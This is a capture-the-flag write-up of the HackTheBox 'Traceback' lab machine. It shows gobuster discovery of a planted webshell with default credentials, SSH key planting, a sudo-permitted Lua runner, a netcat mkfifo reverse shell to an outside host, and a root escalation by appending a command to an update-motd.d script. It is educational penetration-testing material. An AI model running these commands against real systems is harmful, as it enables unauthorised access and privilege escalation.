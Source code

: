 ```yaml
---
title: Writeup - HackTheBox - Traceback
published: true
---
```

Someone did hack this machine before and left a webshell on the
webserver. I use this webshell to get access to the webadmin user
account. From the user webadmin I could escalate to the sysadmin
user account through a lua script. The sysadmin can write to the
motd, wich runs as root. By taking advantage of that I was able to
get root access.

## [](#header-2)Enumeration

### [](#header-3)Nmap
I started with an nmap scan to get a list of running services on
the machine.

```
Nmap -sC -sV -oA nmap/nmap 10.10.10.181
```

![](Pictures/Traceback/nmap.png)

There is only two ports open, 22 and 80. I was looking at the
website that the webserver is hosting and noticed that this server
probably have been hacked.

![](Pictures/Traceback/website1.png)

The hacker left a note that he left a backdoor. By looking at the
source code I got some more information.

```
<center>
<h1>This site has been owned</h1>
<h2>I have left a backdoor for all the net. FREE
INTERNETZZZ</h2>
<h3> - Xh4H - </h3>
<!--Some of the best web shells that you might need ;)-->
</center>
```

With this information I just did a google search.

```
google <!--Some of the best web shells that you might need ;)-->
```

It got me to a GitHub page with different webshells.

![](Pictures/Traceback/webshells.png)

I saved the names of all the webshells into a file, list.txt.

![](Pictures/Traceback/list.png)


## [](#header-2)Exploitation

### [](#header-3)Gobuster
With the use of gobuster together with the list I got the
following result:

```
gobuster dir -w list.txt -u http://10.10.10.181 -x php
```

![](Pictures/Traceback/gobuster.png)

The tool got a hit on smevk.php. By taking a look at the following
site http://10.10.10.181/smevk.php I was presented with this:

![](Pictures/Traceback/website2.png)

I needed some credentials to be able to log in. I went back to the
GitHub page and looked through some of the shell code and found
the default login credentials.

```
$deface_url = 'http://pastebin.com/raw.php?i=FHfxsFGT';
url here(pastebin).
//deface
$UserName = "admin"; //Your UserName here.
$auth_pass = "admin"; //Your Password.
//Change Shell Theme here//
$color = "#8B008B"; //Fonts color modify here.
$Theme = '#8B008B';
accoriding to your choice. //Change border-color
$TabsColor = '#0E5061'; //Change tabs color here.
```

### [](#header-3)The access
I made the assumption that the default login credentials had not
been changed, and I was right, I was able to login.

![](Pictures/Traceback/loggedin.png)

From here I got an interface with access to the under laying
system as the user webadmin. By looking around I figured out that
I can access the webadmin’s home folder. In the folder
/home/webadmin/.ssh/ I put my own ssh pub key from my Kali system
into the file authorized_keys.

```
ssh-keygen -t rsa
```

![](Pictures/Traceback/pub.png)

### [](#header-3)User access as webadmin
I was now able to login to the system as webadmin without a
password.

```
ssh webadmin@10.10.10.181
```

![](Pictures/Traceback/shell1.png)

Here is more tracks from the former hacker.
I started with some enumeration of the user webadmin and found a
note in the home folder, note.txt.

```
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```

### [](#header-3)Lua scripting
Lua is a scripting language.
I didn’t know where look for this tool, so I did some more
enumeration. When I was looking if I had some sudo privileges on
the system I found this:

```
sudo -l
```

![](Pictures/Traceback/sudo-l.png)

This tells me that I can run luvit in the user sysadmin’s
homefolder as the user sysadmin.

![](Pictures/Traceback/lua-poc.png)

I had never written anything with Lua before but I was able to do
a quick test of my privileges as sysadmin. I put the following
code in a file, script.lua, in the /tmp folder and then I ran
luvit as the user sysadmin.

```
os.execute('ls -la /home/sysadmin/> /tmp/ls')
```

![](Pictures/Traceback/lua1.png)

This worked and I got a listing of the content in sysadmin’s home
folder. My next step was to edit the script that it would give me
a user shell as sysadmin.

### [](#header-3)User access as sysadmin
I found out that netcat was installed on the system and that got
me the idea of putting a reverse shell into the Lua script, using
netcat.

```
os.execute('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 1337 >/tmp/f')
```

By doing this I could get a shell back.
On my Kali machine I put up a listener with the same port as in
the script.

```
nc -lvnp 1337
```

I ran the Lua script in the same was as before and I got a shell
back as the user sysadmin.
I was now able to get the user.txt flag.

![](Pictures/Traceback/user.png)

### [](#header-3)Root access
I did some enumeration and figured out by looking at running
processes that root updates the motd and I wonderd why. I took a
look inside the folder /etc/update-motd.d and found that the user
sysadmin can edit the motd files.

![](Pictures/Traceback/ls-motd.png)

I put the following line of code inside of the 00-header file:

```
echo "cat /root/root.txt" >> /etc/update-motd.d/00-header
```

When I logged back into the system with the user webadmin I got
the root.txt flag.

![](Pictures/Traceback/root.png)

Here the root.txt flag is blurred out.
